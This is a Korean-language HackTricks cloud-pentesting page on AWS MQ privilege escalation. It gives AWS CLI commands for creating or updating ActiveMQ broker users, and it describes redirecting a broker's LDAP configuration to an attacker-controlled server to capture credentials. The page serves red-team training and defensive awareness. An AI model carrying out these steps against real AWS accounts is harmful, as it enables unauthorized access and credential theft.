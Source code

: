 # AWS - MQ Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## MQ

MQ에 대한 더 많은 정보는 다음을 확인하세요:

{% content-ref url="../aws-services/aws-mq-enum.md" %}
[aws-mq-enum.md](../aws-services/aws-mq-enum.md)
{% endcontent-ref %}

### `mq:ListBrokers`, `mq:CreateUser`

이 권한으로 **ActimeMQ 브로커에 새 사용자를 생성할 수 있습니다** (RabbitMQ에서는 작동하지 않음):

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**잠재적 영향:** ActiveMQ를 탐색하여 민감한 정보에 접근

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

이 권한을 사용하면 **ActiveMQ 브로커에 새 사용자를 생성할 수 있습니다** (RabbitMQ에서는 작동하지 않음):

{% code overflow="wrap" %}
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
{% endcode %}

**잠재적 영향:** ActiveMQ를 통해 민감한 정보에 접근

### `mq:ListBrokers`, `mq:UpdateBroker`

브로커가 **ActiveMQ**와 함께 **LDAP**를 사용하여 권한 부여를 하는 경우, 공격자가 **제어하는 LDAP 서버**로 **구성**을 **변경**할 수 있습니다. 이렇게 하면 공격자는 **LDAP를 통해 전송되는 모든 자격 증명을 훔칠 수** 있게 됩니다.
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
원래 ActiveMQ에 사용된 자격 증명을 찾을 수 있다면 MitM을 수행하고, 자격 증명을 훔쳐 원래 서버에서 사용한 다음 응답을 보낼 수 있습니다(아마도 훔친 자격 증명을 재사용하여 이를 수행할 수 있습니다).

**잠재적 영향:** ActiveMQ 자격 증명 훔치기

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}

